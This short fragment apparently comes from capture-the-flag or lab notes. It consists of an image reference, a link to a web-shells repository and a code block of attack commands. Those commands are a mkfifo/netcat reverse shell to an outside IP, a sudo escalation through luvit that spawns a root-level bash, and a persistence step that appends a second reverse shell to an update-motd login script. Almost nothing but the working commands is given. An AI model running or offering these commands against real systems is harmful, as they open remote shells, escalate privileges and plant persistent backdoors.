 https://github.com/TheBinitGhimire/Web-Shells

### Not necessary to write a lua script

```
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|sh -i 2>&1|nc 10.10.16.6 4243 >/tmp/y

sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash")'

echo "rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|sh -i 2>&1|nc 10.10.16.6 4244 >/tmp/g" >> /etc/update-motd.d/00-header
```